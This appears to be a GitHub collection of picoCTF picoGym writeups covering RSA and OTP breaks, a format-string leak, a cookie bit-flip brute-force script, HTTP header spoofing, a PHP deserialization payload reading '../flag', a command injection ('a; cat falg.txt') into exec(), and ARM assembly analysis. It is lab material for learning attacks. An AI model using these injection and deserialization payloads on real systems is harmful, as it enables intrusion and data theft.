



# picoCTF - picoGym
In this section I will store some writeups for the challenges I managed to solve in the picoGym, except the trivial ones.

Authors: 
* [Gregorio Galletti](https://github.com/gregalletti) - _griggoswaggo_ (picoGym Score: **9320**)

# General Skills
## X
 

# Cryptography

## Mini RSA  

## Mind your Ps and Qs  
> Decrypt my super sick RSA:  
> c: 964354128913912393938480857590969826308054462950561875638492039363373779803642185  
> n: 1584586296183412107468474423529992275940096154074798537916936609523894209759157543  
> e: 65537

We can easily see that, as hinted, the modulus N is too small. In this way we can simply factor it (factordb) and get P and Q.  
Now we can calculate `PHI = (P-1)*(Q-1)` and `D = E^(-1) mod PHI`, to decrypt the given C we just calculate `M = C^D mod N` and convert it into text.

Flag: **picoCTF{sma11_N_n0_g0od_73918962}**


## Easy Peasy   

We are given a Python script granting an OTP encryption, so let's analyze it and find some weaknesses.  
Here is how the program works: it first encrypts the flag, then a loop is performed to get our input and encrypt it using a key of 50000 lenght, leading to different encryption of the same characters in different inputs. *start* is where the needed key part sholud start, and *stop* is where it should end.  
The most important rule of an One Time Pad is that the key is never reused in part or in whole. We notice this in the encryption part:
```python
if stop >= KEY_LEN:
   stop = stop % KEY_LEN
   key = kf[start:] + kf[:stop]
```
This means that if we reach the end of the key, we will restart and reuse the key from the beginning! Knowing that, we can trick the program in our favour.

Let's send 49968 characters (added to 32 of the flag we reach 50000), and then 32 chosen characters: we will obtain the characters encrypted with the SAME key as the flag.  
**Note:** at first I sent 32 'A's to encrypt, but I soon realized that sending 32 null bytes would lead to a quicker solution.

Let's first recover the encrypted flag by just connecting with `nc mercury.picoctf.net 41934`, so `0345376e1e5406691d5c076c4050046e4000036a1a005c6b1904531d3941055d`.  
Let's send this `python -c "print('A'*49968);print(b'\x00'*32)" | nc mercury.picoctf.net 41934` obtaining `6227515c7863625c7838615c7862345c7830345c7866385c7830307b5c786464`, our key.  

Now we just need to XOR the two values and obtain the flag:
```python
>>> ef=0x0345376e1e5406691d5c076c4050046e4000036a1a005c6b1904531d3941055d
>>> k=0x6227515c7863625c7838615c7862345c7830345c7866385c7830307b5c786464
>>> '{:x}'.format(ef^k)
'6162663266376435656466303832303238303736626664376134636665396139'
```
Translated into ASCII text, this will show the flag to submit and get the points.

Flag: **picoCTF{abf2f7d5edf082028076bfd7a4cfe9a9}**

## New Caesar  

What we have here is a ciphertext (_ihjghbjgjhfbhbfcfjflfjiifdfgffihfeigidfligigffihfjfhfhfhigfjfffjfeihihfdieieih_) and a python script: 
```python
import string

LOWERCASE_OFFSET = ord("a") # 97
ALPHABET = string.ascii_lowercase[:16] # abcdefghijklmnop

def b16_encode(plain):
	enc = ""
	for c in plain:
		binary = "{0:08b}".format(ord(c)) # just the binary value of the char, 'a' = 01100001
		enc += ALPHABET[int(binary[:4], 2)] # MSBs of the binary converted in decimal, used as index of alphabet
		enc += ALPHABET[int(binary[4:], 2)] # same with LSBs
	return enc

def shift(c, k):
	t1 = ord(c) - LOWERCASE_OFFSET
	t2 = ord(k) - LOWERCASE_OFFSET
	return ALPHABET[(t1 + t2) % len(ALPHABET)]

flag = "redacted"
key = "redacted"
assert all([k in ALPHABET for k in key]) # every char in the key is in the alphabet
assert len(key) == 1 # key of lenght 1 ???

b16 = b16_encode(flag)
enc = ""
for i, c in enumerate(b16):
	enc += shift(c, key[i % len(key)])
print(enc)
```

I added some comments in order to better understand the behaviour, and the most important thing we can notice is that **the key lenght is only 1**! This means that should be easy to invert the process and rewrite this script in order to decrypt the given ciphertext, bruteforcing the key on an alphabet of 16 characters.

We can divide the encryption algorithm in 2 parts: encode and shift. Now to decrypt we will need to first shift back the characters and then to decode.  
The switching part is kinda easy, just make t1 - t2 and we are done. The decoding part is more complex but we just reverse the whole process, so we take pairs of ciphertext letters, take their index in the ALPHABET and print them as binary (`zfill(4)` to make sure we have 4 bits).  
After that we concatenate them and convert this into a character, and by concatenating everything we can print a flag candidate. Of course we will do this for every possible key, and eventually we will find a suitable flag.

The final script is:
```python
import string
enc = "ihjghbjgjhfbhbfcfjflfjiifdfgffihfeigidfligigffihfjfhfhfhigfjfffjfeihihfdieieih"

LOWERCASE_OFFSET = ord("a")
ALPHABET = string.ascii_lowercase[:16]

def b16_decode(ctx):
	flag = ""
	for c in range(0, len(ctx) ,2):
	    first = "{0:b}".format(ALPHABET.index(ctx[c])).zfill(4)
	    second = "{0:b}".format(ALPHABET.index(ctx[c+1])).zfill(4)
	    res = first + second
	    flag += chr(int(res,2))
	return flag

def shiftBack(c, k):
	t1 = ord(c) - LOWERCASE_OFFSET
	t2 = ord(k) - LOWERCASE_OFFSET
	return ALPHABET[(t1 - t2) % len(ALPHABET)]

for key in ALPHABET:
    b16 = ""
    for i, c in enumerate(enc):
	    b16 += shiftBack(c, key[i % len(key)])
    flag = b16_decode(b16)
    print(flag)
```

Flag: **picoCTF{et_tu?\_0797f143e2da9dd3e7555d7372ee1bbe}**

## Mini RSA  

> What happens if you have a small exponent? There is a twist though, we padded the plaintext so that (M ** e) is just barely larger than N.

We are give `n, c and e` of an RSA problem. . The challenge text says _What happens if you have a small exponent?_ similar to the other MiniRSA challenge, but the message is said to be padded so that _(M ** e) is just barely larger than N_. What does this mean?  
We know that M\*\*e mod N = c, so also M\*\*e = c + x\*N. We need to find that x.

With such big numbers, this equation is like M\*\*e ~= x\*N: so we just need to find the cubic root of x\*N with (in this case) gmpy2: M = iroot(x\*N, 3). We can't know this value a priori but we can bruteforce in with a probably small time, due to the _barely larger_ fact. 

The final script is:
```python
import gmpy2

N = 1615765684321463054078226051959887884233678317734892901740763321135213636796075462401950274602405095138589898087428337758445013281488966866073355710771864671726991918706558071231266976427184673800225254531695928541272546385146495736420261815693810544589811104967829354461491178200126099661909654163542661541699404839644035177445092988952614918424317082380174383819025585076206641993479326576180793544321194357018916215113009742654408597083724508169216182008449693917227497813165444372201517541788989925461711067825681947947471001390843774746442699739386923285801022685451221261010798837646928092277556198145662924691803032880040492762442561497760689933601781401617086600593482127465655390841361154025890679757514060456103104199255917164678161972735858939464790960448345988941481499050248673128656508055285037090026439683847266536283160142071643015434813473463469733112182328678706702116054036618277506997666534567846763938692335069955755244438415377933440029498378955355877502743215305768814857864433151287
e = 3
c = 1220012318588871886132524757898884422174534558055593713309088304910273991073554732659977133980685370899257850121970812405700793710546674062154237544840177616746805668666317481140872605653768484867292138139949076102907399831998827567645230986345455915692863094364797526497302082734955903755050638155202890599808146919581675891411119628108546342758721287307471723093546788074479139848242227243523617899178070097350912870635303707113283010669418774091018728233471491573736725568575532635111164176010070788796616348740261987121152288917179932230769893513971774137615028741237163693178359120276497700812698199245070488892892209716639870702721110338285426338729911942926177029934906215716407021792856449586278849142522957603215285531263079546937443583905937777298337318454706096366106704204777777913076793265584075700215822263709126228246232640662350759018119501368721990988895700497330256765579153834824063344973587990533626156498797388821484630786016515988383280196865544019939739447062641481267899176504155482

for x in range(100000):
    m, found = gmpy2.iroot(x*N + c, e)
    if found:
        print("Found x = {}".format(x))
        print("Flag = {}".format(bytes.fromhex(hex(m)[2:]).decode('ASCII')))
        break
```

Flag: **picoCTF{e_sh0u1d_b3_lArg3r_60ef2420}**

## Dachshund Attacks  

We have a remote server where we can connect and obtain `e, n and c` of an RSA problem. The challenge text says _What if d is too small?_ (which is oddly ambiguous) and after some googling I found the [Wiener Attack](https://en.wikipedia.org/wiki/Wiener%27s_attack) (more ambiguous), feasible when d is small! If any doubt, this is confirmed from the fact that Dachshund is that little sausage dog, also called wiener dog.  
By searching for a python implementation I found [this one](https://github.com/orisano/owiener) awesome, and I used it to solve the problem.

By setting the given `e` and `n` we can obtain `d` with the attack, and after that we can simply decrypt the given `c`, convert it into hex and then ASCII and get the flag. This is the final script:
```python
import owiener

e = 115672417112927257671680305939934359365770610260861730036576852003995595676738019854156896978452695493499603711084199051703037741612104358554500922255601810699239639276721088454380220351087165317005776882604094492362559466589322345564816722986043365200197328901401825485278698288628276429261242166244230567489
n = 126464990415558983403176864213946695038601049351609225147898757728512524756706217511963198935092618068670554550413258741381432620153181016246126875941976724705392460289282557576686876928892251600322535922349244519540114524945350798877163247781257922671051428624372661514140723871265632532731717598340766266343
c = 111321497464016602005557521031123106684276292631071554434038480623506616443911260308781727450386770672481648306263904680048763443482585922984395943505671937379941613335472362526841433859265067829439266522906203272443815955305450235368266937689107285781709931596212063854029971643694610913742233468948132822071
d = owiener.attack(e, n)

if d is None:
    print("Failed")
else:
    print("Hacked d={}".format(d))

m = pow(c,d,n)

bytes_flag = bytes.fromhex(hex(m)[2:])
flag = bytes_flag.decode("ASCII")

print(flag)
```

Flag: **picoCTF{proving_wiener_6907362}**

## No padding, no problem  
> Oracles can be your best friend, they will decrypt anything, except the flag's ciphertext. How will you break it? 

If we connect to the server we only get the possibility to submit a ciphertext and get it decrypted, nothing else.  
We have a very important property of RSA, also called the multiplicative property: the multiplication (modulo n) of two ciphertexts is the same as the encryption of the multiplication of the two plaintexts, E(m)\*E(s) mod n = E(m\*s mod n), in fact since E(m)\*E(s) = m^e\*s^e mod n = (m\*s)^e mod n = (m\*s mod n)^e mod n. You can read more [here](http://secgroup.ext.dsi.unive.it/wp-content/uploads/2012/11/Practical-Padding-Oracle-Attacks-on-RSA.html).

We have N, e and ctx_flag, we can exploit the multiplicative property to perform a Chosen Ciphertext Attack on the remote server, choosing ptx2 = 2 and obtaining ctx2 = 2^e mod n; calculate ctx3 = ctx2\*ctx_flag and then submit it to the Oracle getting ptx3. Finally, since ptx3 = ptx2 \* ptx_flag we can get ptx_flag = ptx3 / ptx2

Let's take a look at numbers, from the remote server we get this:
```
n: 80799209814431095790343491259338238651107977352561235864565263656787018421467846733079894989328485497099422410585760003073248073860766557895750352694681971050346253898533173884271409890381084072547226455973760535398079441854389733568634600462617155511458397767430347644255066152450223025245316062323744020151
e: 65537
ciphertext: 40872946028823975975313513670752641684826068380477595686500937086157118355275592497669013278548614810724188401550378935134665758558547491918177306811706097537816022118750118661881706495647706460278367468016154374191035033632334666208160020365739127162462144281924917891906964041444797332706085490053170514935
```

Our calculations are:
```
ctx2 = 2^e mod N = 40935033850459547782904942040359212982473014053363343577187113044679713885186279744481179378912498180180392491144073758870887071124500925648494670883819915615287427404930386571885103041426211042682712925728699844156052023782715880204848567642909212286423862519582644456271219578652991085238899617068058078233

ctx3 = ctx2 * ctx_flag = 30710048674964052826548292045401307845982558650123791385884667431243560854988145736150020129083196263191298375858184314476153189719336525615024282711192479938593621545772507009793907796060288231201251375503929634767178982425215333628709400527885067579789820811531503857728144965096768255334621727074652950165

ptx3 = 580550060391700078946913236734911770139931497702556153513487440893406629034802718534645538074938502890769281669222390720762

ptx_flag = ptx3 / 2 = 290275030195850039473456618367455885069965748851278076756743720446703314517401359267322769037469251445384640834611195360381
```

And if we take the bytes and convert them into ASCII we will obtain the flag, `print(bytes.fromhex(hex(ptx_flag)[2:]))`.

Flag: **picoCTF{m4yb3_Th0se_m3s54g3s_4r3_difurrent_4005534}**

## Pixelated  

This challenge gives us 2 images made by what seem random pixels, suggesting we can extract a flag from them. I immediately thought about performing a bitwise XOR beetween them, but unfortunately this did not work. At this point I was stuck, trying AND and OR operations too without success.  

I then tried to open them on StegSolve, a jar containing a lot of useful steganography tools like in this case the **Image Combiner**: by selecting the ADD operation we get this (I still can't reach the same result with Linux commands):



So here it is the flag: **picoCTF{2a4d45c7}**

# Binary Exploitation
## Stonks  

We are given a C source file, so let's search for vulnerabilities. There is a clear _format string_ vulnerability at line 93, in the `buy_stonks` function:

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

Now we know we can use this to print what we need from the memory. Let's try locally, using a custom `api` file (the flag one) to easily recognize if we got the content, take a bunch of 'A's to try. If we then submit a sequence of `%x`s as input, we will leak the memory and see a sequence of 41, our flag file.

With no hesitation we can simply connect to the remote program and do the same, leaking at some point (after converting it into ascii) `ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10\xff\xfb\x00}` that is clearly our flag. 

Just reverse it 4 by 4 characters and we obtain the flag: **picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}**

# Web Exploitation
## More Cookies  

As the title says this challenge is about cookies, so by inspecting the given [website](http://mercury.picoctf.net:21553/) we immediately see a cookie named `auth_name` set to `cHhjTUd0S1VpUmFROG1Cell5d3VkWlI4MWxCNHg2ZnhFOFJMb09pY3NoMmpWVEpYRDR1cStsSkJDb2U3VVV3U3Jlb0NVWHpmUkZieXNZOG9kdmE4MXgxa040SjlhSkRWbGxiaEdVZ08yS0R0VjJVMEdlUElDUXYxUTRGZyt0N2U=`, which seems base64 encoded. Let's try to decode it, but we still get nothing readable.  
If we read the challenge description we can see that the cookie is said to be encrypted in some way, we can then guess that it is first encrypted and then base64 encoded.

At this point I was stuck, trying to find a suitable encrypting algorithm without success. Then an hint: _homomorphic encryption_.  
I already faced this type of challenges, so somehow we need to modify the ciphertext in order to become the admin. This leaves only the possibility of a bit-flip attack, meaning that somewhere in the plaintext we have like isAdmin=0 and we need to make it 1.

By doing that, we will make the website decrypt the cookie and consider us as admin. We don't know the position of the bit to change so we need to bruteforce it and send the request to the website that will show us the flag. This is the script I used:
```python
from base64 import b64decode
from base64 import b64encode
import requests

cookie = "cHhjTUd0S1VpUmFROG1Cell5d3VkWlI4MWxCNHg2ZnhFOFJMb09pY3NoMmpWVEpYRDR1cStsSkJDb2U3VVV3U3Jlb0NVWHpmUkZieXNZOG9kdmE4MXgxa040SjlhSkRWbGxiaEdVZ08yS0R0VjJVMEdlUElDUXYxUTRGZyt0N2U="
url = "http://mercury.picoctf.net:21553/"

def flip(index, bit):
    chars = list(decoded_cookie.decode("utf-8"))

    chars[index] = chr(ord(chars[index])^bit)

    new_cookie = ''.join(chars)
    return b64encode(new_cookie.encode("utf-8"))

decoded_cookie = b64decode(cookie)
for i in range(128):
  print(i)
  for j in range(128):
    crafted_cookie = flip(i, j)
    cookies = {'auth_name':crafted_cookie.decode("utf-8")}
    r = requests.get(url, cookies=cookies)
    if "picoCTF{" in r.text:
      print(r.text)
      break
```

Flag: **picoCTF{cO0ki3s_yum_2d20020d}**

## It is my birthdady!  

Maybe is me, but the challenge description looks a bit confused. Anyway, what I got from it is that we may need to upload 2 different PDF files with the same MD5 hash. Unfortunately for the birthday boy, MD5 is not the best algorithm when talking about collisions. There are plenty of famous colliding strings and files, like [these](https://www.mscs.dal.ca/~selinger/md5collision/) that, saved as .pdf and uploaded will trigger the website and let us celebrate together.

Flag: **picoCTF{c0ngr4ts_u_r_1nv1t3d_5c8c5ce2}**

## Who are you?  

We can access [this](http://mercury.picoctf.net:36622/) website and see what seems to be a trivial User-agent challenge: the kid is telling us _Only people who use the official PicoBrowser are allowed on this site!_ so we can try to modify our `User-agent: picobrowser` in the request to get access. This works, but unfortunately there is more.. Note that I used Burp to craft requests since it was quicker for me, but every other method would work. 

_I don't trust users visiting from another site._ at this point I realized I'm bad with HTTP requests parameters, so it's better to keep [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers) open. At some point we can see the Referer parameter (Origin does not work), the address of the previous web page from which a link to the currently requested page was followed. We can now set `Referer: http://mercury.picoctf.net:36622/` and go to the nextstep.

_Sorry, this site only worked in 2018._, trivially set Date to something in 2018 like `Date: Tue, 25 Dec 2018 00:00:00 GMT`.

_I don't trust users who can be tracked._ this one was actually the hardest, due to the fact that DNT (Do Not Track) is deprecated and I didn't think about it. However, just set it to 1 and go on: `DNT: 1`.

_This website is only for people from Sweden._, I tried to set the X-Forwarded-For parameter to a Swedish IP address and... it worked! `X-Forwarded-For: 31.15.32.0`.

_You're in Sweden but you don't speak Swedish?_, this clearly points to the Accept-Language parameter, so set it to Swedish following [this table](http://www.lingoes.net/en/translator/langcode.htm), so `Accept-Language: sv-SE`.

And finally we get the flag! I just want to say that despite being an easy challenge I learned a lot about HTTP requests and parameters, always useful.

The final HTTP request will be something like this:
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: sv-SE
Referer: http://mercury.picoctf.net:36622/
Date: Tue, 25 Dec 2018 00:00:00 GMT
DNT:1
X-Forwarded-For: 31.15.32.0
Connection: close
```

Flag: **picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0da16bb2}**

## Some Assembly Required 2  

By inspecting the website source code we can see some Web Assembly, and as done in the part 1 we can go to the last code line and see a string that seems somehow encoded: `xakgK\5cNsl<8?nmi:<i;0j9:;?nm8i=0??:=njn=9u`. This is where [Cyberchef](https://gchq.github.io/CyberChef/) comes in rescue, with the Magic recipe: we can submit an input and it will try to bake everything he can.  
We can see as a result that the performed operation is probably a XOR, even if the flag is a bit compromised: `picoCT=kF{d407fea24a38b1237fe0a587725fbf51}` maybe is because we roughly copied the value from the website.  
We can try to download the source code and see if something changes. `+xakgK\Nsl<8?nmi:<i;0j9:;?nm8i=0??:=njn=9u`, so yes (maybe some encoding stuff messed it up).

Re inserting this into Cyberchef gets us the same XOR operation with '8', leading to the flag: **picoCTF{d407fea24a38b1237fe0a587725fbf51}**

I still don't get how this challenge is considered as a Web and how it's 110 points, but I think it's worth to showcase for this awesome Cyberchef tool.

## Super Serial  
> Try to recover the flag stored on this website http://mercury.picoctf.net:42449/

After a classic web recon on this website, the `robots.txt` are interesting: `Disallow: /admin.phps`. Please forgive me, but I didn't know what .phps files were: servers will output a color-formated version of the source code (WOW). So we have access to source codes!

I'm stupid so I tried to access `/admin.phps` directly with no success, until I realized that the index page may be useful: if we access the `index.phps` file we get all the source code we need. Here we can see the first PHP line saying `require_once("cookie.php");`, a reeeeeeaally interesting serialization of a cookie and a redirect `header("Location: authentication.php");`.  
In index, the server creates a permissions object from the provided username and password.

Let's now access `cookie.phps` where I am sure we will see a deserialization of that cookie, here it is:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

At this point I was a bit stuck, and then I read the hint: _The flag is at ../flag_, so maybe we just need to print things and being admin is not important?  
The interesting thing is that in the previous code, if an error occurs, we will print the perm object.

Let's now take a look to the `authentication.phps` where we can see an `access_log` class, seems a good name to print data:
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

Ok so maybe we got it, the idea is to create serialized `access_log` object and set its `log_file` to `../flag`, set this as the cookie, then let the website to unserialize this and the trigger the error: at this point the `__toString()` function of `access_log` (instead of the `permission` one) should be called and we should see the flag.

I don't know why I crafted by hand the serialized object but here it is my code:
```php
<?php
    $acc_log = 'O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}';
    echo urlencode(base64_encode($acc_log));
?>
```

printing `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`.  
_Explanation_: `O` means Object, `:10` means the object's name is of 10 chars, `:"access_log"` is the object's name, `:1` is the number of the object's fields. `:{` is the start of the field, `s:8` means the field name is a string of 8 chars, `:"log_file;"` is the field's name, `s:7` means the field value is a string of 7 chars, `:"../flag;"` is the field actual value.  

If we set this value to the `login` cookie and perform a request to the `authentication.php` page we get as a result: `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}`, as expected.

Flag: **picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}**

## caas  

> Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

By accessing the website and submitting some random messages, I started thinking about injecting some malicious content to the request, because the message is just taken and printed back from a cow.  
I tried to inject URL-encoded javascript, a Server Side Template Injection (by using a message like {{7\*7}}), but nothing seemed to work. I then tried to google some other possible attacks but still nothing.

After some time I realized they gave us also a source code I completely ignored:
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

What we can conclude from there is that if we want to do something, the message must make the `exec()` function not to trigger an error, and to print back something useful instead. Also, the fact that `exec` is used may be a good thing for us.

In a command line, multiple commands may be executed sequentially: if we write `cat hello.txt; cat world.txt` is like if we wrote `cat hello.txt` and `cat world.txt` one after the other. What if we can do the same here?

If we try with `a; ls` we will get this:
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

BOOM, we just need to send `a; cat falg.txt` and enjoy our points!

Flag: **picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

# Reverse Engineering
## ARMssembly 0  

We have a .S file, so let's open it and start analyzing it, knowing that the arguments are 3854998744 and 915131509.  
Here is the main:
```assembly
main:
	stp	x29, x30, [sp, -48]!
	add	x29, sp, 0
	str	x19, [sp, 16]
	str	w0, [x29, 44]
	str	x1, [x29, 32]
	ldr	x0, [x29, 32]
	add	x0, x0, 8
	ldr	x0, [x0]
	bl	atoi
	mov	w19, w0
	ldr	x0, [x29, 32]
	add	x0, x0, 16
	ldr	x0, [x0]
	bl	atoi
	mov	w1, w0
	mov	w0, w19
	bl	func1
	mov	w1, w0
	adrp	x0, .LC0
	add	x0, x0, :lo12:.LC0
	bl	printf
	mov	w0, 0
	ldr	x19, [sp, 16]
	ldp	x29, x30, [sp], 48
	ret
	.size	main, .-main
	.ident	"GCC: (Ubuntu/Linaro 7.5.0-3ubuntu1~18.04) 7.5.0"
	.section	.note.GNU-stack,"",@progbits
```

What the first lines of code seem to do is to read arguments from command line and convert them into integers (notice the double `atoi` link call), and after that we can see `mov    w1, w0` and `mov    w0, w19` leaving the input values in the same order we wrote them: they are then passed to `func1` as parameters with `w0 = 3854998744` and `w1 = 915131509`.  

Here is `func1` and the following functions/labels (`L2`, `L3` and `LC0`): 
```assembly
func1:
	sub	sp, sp, #16
	str	w0, [sp, 12]
	str	w1, [sp, 8]
	ldr	w1, [sp, 12]
	ldr	w0, [sp, 8]
	cmp	w1, w0
	bls	.L2
	ldr	w0, [sp, 12]
	b	.L3
.L2:
	ldr	w0, [sp, 8]
.L3:
	add	sp, sp, 16
	ret
	.size	func1, .-func1
	.section	.rodata
	.align	3
.LC0:
	.string	"Result: %ld\n"
	.text
	.align	2
	.global	main
	.type	main, %function
```

`func1` just loads the two values in reverse order and compares them (now `w0 = 915131509` and `w1 = 3854998744`), if w1 < w0 then jumps to `.L2`: this is not our case. Then the `ldr   w0, [sp, 12]` instruction will load the first value, 3854998744, and jump to `.L3`.

After getting back to the main, this value will be printed. The challenge description says that the flag format is the hex value of what will be printed, so **picoCTF{e5c69cd8}**

## Speeds and feeds  

We connect to a remote server and we get as result a veeeery long output, let's write it on a file and take a look. We can immediately see every lines starts with G, and then X/Y/Z and some numerical values: this is G-Code, used by 3D printers (luckily enough I already solved a G-Code challenge).

We can then paste the code on [this](https://ncviewer.com/) Simulator and view the result: 


Flag: **picoCTF{num3r1cal_c0ntr0l_68a8fe29}**

## ARMssembly 1   

This challenge is very similar to ARMssembly 0, so we can use the same approach.  
Here is the main:
```assembly
main:
	stp	x29, x30, [sp, -48]!
	add	x29, sp, 0
	str	w0, [x29, 28]
	str	x1, [x29, 16]
	ldr	x0, [x29, 16]
	add	x0, x0, 8
	ldr	x0, [x0]
	bl	atoi
	str	w0, [x29, 44]
	ldr	w0, [x29, 44]
	bl	func
	cmp	w0, 0
	bne	.L4
	adrp	x0, .LC0
	add	x0, x0, :lo12:.LC0
	bl	puts
	b	.L6
```

The `bne    .L4` is what we want to avoid, because it will lead to `.LC1` printing "You Lose :(". We want instead not to take that branch and jump to `.LC0` printing "You Win!": we need w0 = 0 (the result of `func`).
```assembly
func:
	sub	sp, sp, #32
	str	w0, [sp, 12]	; this is the needed argument, call it x
	mov	w0, 58
	str	w0, [sp, 16]	; store 58 
	mov	w0, 2
	str	w0, [sp, 20]	; store 2
	mov	w0, 3
	str	w0, [sp, 24]	; store 3
	ldr	w0, [sp, 20]	; w0 = 2
	ldr	w1, [sp, 16]	; w1 = 58
	lsl	w0, w1, w0	; w0 = 58 << 2 = 58 * 4 = 232
	str	w0, [sp, 28]	; store 232
	ldr	w1, [sp, 28]	; w1 = 232
	ldr	w0, [sp, 24]	; w0 = 3
	sdiv	w0, w1, w0	; w0 = 232 / 3
	str	w0, [sp, 28]	; store 77
	ldr	w1, [sp, 28]	; w1 = 77
	ldr	w0, [sp, 12]	; w0 = x
	sub	w0, w1, w0	; w0 = 77 - x
	str	w0, [sp, 28]	; store (77 - x)
	ldr	w0, [sp, 28]	; w0 = (77 - x)
	add	sp, sp, 32
	ret
	.size	func, .-func
	.section	.rodata
	.align	3
```

The comments I added to the assembly code are self-explanatory, in this case we have that (77 - x) must be equal to 0, leading to `x = 77`. 77 in hex is 4d, thus the flag (lowercase and 8 bit) will be **picoCTF{0000004d}**

## ARMssembly 2  

ARMssembly again, same process with argument 1748687564. Notice that `wrz` is a special register containing value 0.
```assembly
func1:
	sub	sp, sp, #32
	str	w0, [sp, 12]	; store 1748687564
	str	wzr, [sp, 24]	; store 0
	str	wzr, [sp, 28]	; store 0
	b	.L2
.L3:
	ldr	w0, [sp, 24]	; w0 = 0,3,.. 
	add	w0, w0, 3	; w0 = 3,6,..
	str	w0, [sp, 24]	; store 3,6,.. until 1748687564 * 3
	ldr	w0, [sp, 28]	; w0 = 0,1,..
	add	w0, w0, 1	; w0 = 1,2,..
	str	w0, [sp, 28]	; store 1,2,..
.L2:
	ldr	w1, [sp, 28]	; w1 = 0,1,2,.. until 1748687564
	ldr	w0, [sp, 12]	; w0 = 1748687564,same,same
	cmp	w1, w0		
	bcc	.L3		; carry is clear so jump
	ldr	w0, [sp, 24]	; w0 = [sp + 24]
	add	sp, sp, 32
	ret
	.size	func1, .-func1
	.section	.rodata
	.align	3
```

`func1` is easy, just store values and jump to `.L2` that will load [sp + 28] (initially 0) and [sp + 12] (initially our input) and compare them before jumping to `.L3` with a `bcc` instruction. After googling it I found out that `BCC is Branch on Carry Clear`, and the Carry flag is usually cleared when the result is “higher than or equal”: this actually means that we jump if w1 < w0, we ignore the jump otherwise.  
Looking at how the code is written we can conclude that this is a loop start, executing `.L3` and then again `.L2` until `bcc`, the loop exit condition.

As we can see from the comments I made, at each iteration the [sp + 24] value is incremented by 3 and the [sp + 28] value is incremented by 1, while [sp + 12] remains the same. If we look at the loop from an higher level, we can conclude that the first one is the modified variable, the second one is the index of the loop, and the third one is the loop limiter. 

At the end of the loop, executed 1748687564 times, we will end up with 1748687564 * 3 stored in [sp + 24], which is the value returned by `.L2` and then printed by the `main`.

